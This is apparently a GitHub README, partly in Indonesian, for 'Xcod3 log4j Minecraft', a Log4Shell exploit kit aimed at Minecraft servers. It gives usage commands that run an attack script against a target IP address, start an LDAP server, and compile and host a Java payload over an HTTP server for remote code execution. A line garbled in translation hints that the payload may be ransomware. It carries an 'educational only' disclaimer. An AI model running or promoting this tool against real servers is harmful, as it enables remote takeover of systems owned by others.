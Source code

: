 <p align="left"><a href="https://www.itsecurity.id/"><img height="150" title="Xcod3bughunt3r" src="0011.png"/></a></p>

# ``Xcod3 log4j Minecraft``
#### ``Kode ini *tidak* mempromosikan atau mendorong kegiatan ilegal! Konten dalam dokumen ini disediakan semata-mata untuk tujuan pendidikan dan untuk menciptakan kesadaran!``

##### ``Run the script xcod3-log4j-minecraft.py``
```python3 xcod3-log4j-minecraft.py <ip_address>``` i.e. ```python3 log4j.py 192.168.1.132```
##### ``Ini menginstal perangkat lunak prasyarat, dan juga memulai server LDAP.``
##### ``Run the script jcomp_pyserv.py``
```python3 jcomp_pyserv.py```
##### ``Ini mengkompilasi muatan java untuk RAN, dan juga memulai``
``python3 -m http.server 8080``

### ``DEVELOPERS:``*[Xcod3bughunt3r](https://github.com/Xcod3bughunt3r/Xcod3bughunt3r)*.
